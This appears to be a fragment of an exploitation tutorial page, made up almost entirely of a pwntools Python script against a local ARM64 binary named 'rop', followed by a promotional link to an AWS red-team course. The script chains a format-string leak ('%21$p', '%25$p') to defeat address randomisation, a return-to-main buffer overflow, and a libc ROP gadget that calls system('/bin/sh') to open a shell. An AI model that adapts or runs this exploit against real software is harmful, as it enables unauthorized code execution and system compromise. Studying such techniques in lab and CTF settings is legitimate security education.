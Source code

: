 ### Exploit

```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
    p.sendlineafter(b">\n" ,payload)
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    if is_main_addr:
        response = response[:-4] + b"0000"
    return int(response, 16)

def expl_bof(payload):
    p.recv()
    p.sendline(payload)

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset) 
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
libc.address = libc_base_address
print(f"Libc address: {hex(libc_base_address)}")
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# ret2system
ldr_x0_ret = p64(libc.address + 0x49c40) # ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x78 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
```

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
